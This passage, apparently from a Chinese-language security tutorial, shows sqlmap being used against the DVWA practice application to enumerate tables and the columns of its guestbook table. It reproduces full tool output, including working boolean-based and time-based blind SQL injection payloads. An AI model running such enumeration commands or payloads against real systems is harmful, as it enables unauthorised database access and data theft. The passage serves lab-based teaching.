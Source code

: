 ```shell
[ BlackArch ~ ]$ sqlmap -r /home/hacker/test2.txt -D dvwa --tables
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.7.5#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 08:52:20 /2023-05-30/

[08:52:20] [INFO] parsing HTTP request from '/home/hacker/test2.txt'
[08:52:20] [INFO] resuming back-end DBMS 'mysql'
[08:52:20] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 8687=8687&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 9836 FROM (SELECT(SLEEP(5)))hZle)&Submit=Submit
---
```

结果如下：

![image-20230530085238153](D:\Document\My_book\My_Books\钟全龙著\img\image-20230530085238153.png)

#### 获取字段

获取guestbook数据表的字段信息

```shell
[ BlackArch ~ ]$ sqlmap -r /home/hacker/test2.txt -D dvwa -T guestbook --columns
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.7.5#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 08:53:21 /2023-05-30/

[08:53:21] [INFO] parsing HTTP request from '/home/hacker/test2.txt'
[08:53:21] [INFO] resuming back-end DBMS 'mysql'
[08:53:21] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 8687=8687&Submit=Submit

    Type: time-based blind
```
